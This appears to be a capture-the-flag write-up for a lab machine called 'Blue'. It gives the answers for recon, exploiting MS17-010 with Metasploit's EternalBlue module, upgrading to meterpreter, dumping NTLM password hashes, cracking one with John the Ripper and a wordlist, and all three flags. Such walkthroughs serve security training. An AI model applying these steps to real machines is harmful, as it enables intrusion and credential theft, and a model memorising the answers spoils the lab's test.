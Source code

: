 # Blue #

# Recon #

>> How many ports are open with a port number under 1000?
=> 3
  
>> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
=> ms17-010
  
# Gain Access #

>> Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
=> exploit/windows/smb/ms17_010_eternalblue
  
>> Show options and set the one required value. What is the name of this value? (All caps for submission)
=> RHOSTS
  
# Escalate #

>> how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
=> post/multi/manage/shell_to_meterpreter
  
>> Select this (use MODULE_PATH). Show options, what option are we required to change?
=> SESSION
  

# Cracking #

>> Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
=> jon

Hashes of users   
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

```
using john to crack the hashes 
```
sudo john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt passdump
```
  
>> Copy this password hash to a file and research how to crack it. What is the cracked password?
=> alqfna22


# Find Flags #


>> Flag 1 
=> flag{access_the_machine}
  
>> Flag 2
=> flag{sam_database_elevated_access}
  
>> Flag 3
=> flag{admin_documents_can_be_valuable}
